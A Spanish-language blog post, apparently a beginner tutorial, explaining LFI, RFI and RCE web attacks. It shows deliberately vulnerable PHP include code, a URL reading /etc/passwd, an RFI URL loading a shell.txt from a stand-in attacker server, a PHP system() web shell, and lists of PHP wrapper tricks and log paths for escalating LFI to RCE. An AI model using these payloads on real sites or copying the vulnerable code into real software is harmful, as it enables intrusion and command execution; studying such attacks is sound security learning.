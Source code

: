 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
# ~ LFI ~   Local File Inclusion

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos desde una variable.

-Ejemplo 1
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

~ Archivo vulnerable de php mediante LFI ~ 
{% highlight php %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}

-Ejemplo 2
Nos montamos un servidor apache ($service apache2 start) que almacene dos archivos:
```
* example.php
* file.txt
```
Donde example.php seria:
{% highlight php %}
<?php
    $file = $_GET['filename'];
    include($file);
?>
{% endhighlight %}

Y file.txt:
``` 
Por Aqui Puede Haber Un LFI
```
Nosotros apuntando a nuestro servidor podrimos ya listar archivos Locales del servidor, atraves de la variable "filename"
```bash
http://localhost/example.php?filename=file.txt
http://localhost/example.php?filename=/etc/passwd
```

# ~ RFI ~   Remote File Inclusion
La vulnerabilidad de Remote File Inclusion se produce cuando:
Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "
El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:
http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
{% highlight %}
<?php
  system($cmd);
?>
{% endhighlight %}

# ~ RCE ~   Remote File Inclusion
Algunas formas comunes de pasar de un LFI a RCE:
Ahora, por lo general, cuando encuentro una inclusión de archivo local o LFI, primero trato de convertirlo en una ejecución remota de código.

> Trucos para convertir su LFI en RCE mediante el ~ Uso de formularios / funciones de carga de archivos:
```bash
Usando el contenedor de PHP  wait: // comando
Usando el archivo PHP wrapper  php: //
Usando el contenedor PHP  php: // filter
Usando PHP      input: // stream
Usando datos: // texto / plano; base64, comando
Usando / proc / self / environment
Usando / proc / self / fd
```
>Las siguientes Rutas importantes:
```bash
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
``` 
